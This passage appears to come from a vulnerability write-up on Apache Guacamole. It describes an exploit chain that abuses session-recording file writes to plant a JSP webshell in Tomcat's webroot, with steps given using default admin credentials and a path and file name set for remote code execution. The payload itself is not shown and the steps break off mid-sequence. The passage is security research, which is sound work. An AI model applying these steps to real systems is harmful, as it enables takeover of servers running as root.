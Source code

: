 The end user can create many connections in the settings panel

<img class="img_full" src="create-connection.png" alt="create-connection">


## Exploit chain 1 - Write a JSP WebShell with TypeScript recording

Use the file write to create a jsp webshell in tomcat's webroot folder, and trigger it afterward. 
Here, guacd runs as root, tomcat is in the same docker, and its home folder is `/usr/local/tomcat`. 

<video class="img_full" controls>
  <source src="exploit-chain-1.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>


```md
# Login
guacadmin:guacadmin


# Create connection
http://127.0.0.1:8080/#/settings/postgresql/connections
/usr/local/tomcat/webapps/ROOT
rce.jsp


# Drop webshell
http://127.0.0.1:8080/
open side panel with ctrl+alt+shift
copy from foo to bar to enforce new line that will end the connection and trigger file write

foo

```